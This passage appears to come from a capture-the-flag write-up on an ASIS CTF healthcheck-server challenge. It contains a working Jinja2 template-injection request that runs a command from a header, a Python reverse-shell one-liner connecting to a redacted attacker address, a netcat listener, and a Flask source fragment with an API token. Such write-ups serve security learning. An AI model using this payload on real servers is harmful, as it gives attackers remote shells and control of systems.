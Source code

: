 **HTTP Response:**

```
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Wed, 16 Dec 2020 20:09:39 GMT
Connection: close
Content-Type: application/json
Content-Length: 117

{"err":"\n<h2>Error: cannot find **9**</h2>\n<pre>[Errno -2] Name or service not known</pre>","ip":"error","result":[0]}
```

**Getting a Reverse Shell**

```
attacker$ nc -lvnp 1312

---

GET //ping?address={{config.__class__.__init__.__globals__['os'].popen(request.headers['X-CODE']).read()}} HTTP/1.1
Host: the-healthcheck-server.asisctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
X-CODE: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<REDACTED>",1312));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://the-healthcheck-server.asisctf.com/
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
```

```python
<imports>

app = Flask(__name__)
api_token = "ewoJInRpZXIiOiAyLAoJImFjY291bnQiOiAiYm05MFgzUm9jbTkzYVc1blgyRjNZWGxmYlhsZmMyaHZkQSIKfQ==:d39131efd320ca3bdd147986f9fe2686bc330d5a0c8765a9b78c25f0fcb8c6df"

'''
ewoJInRpZXIiOiAyLAoJImFjY291bnQiOiAiYm05MFgzUm9jbTkzYVc1blgyRjNZWGxmYlhsZmMyaHZkQSIKfQ==

{
	"tier": 2,
	"account": "bm90X3Rocm93aW5nX2F3YXlfbXlfc2hvdA"
}
'''

# the-real-server
ping_server = "https://the-ping-server.asisctf.com/ping"

<...>
```
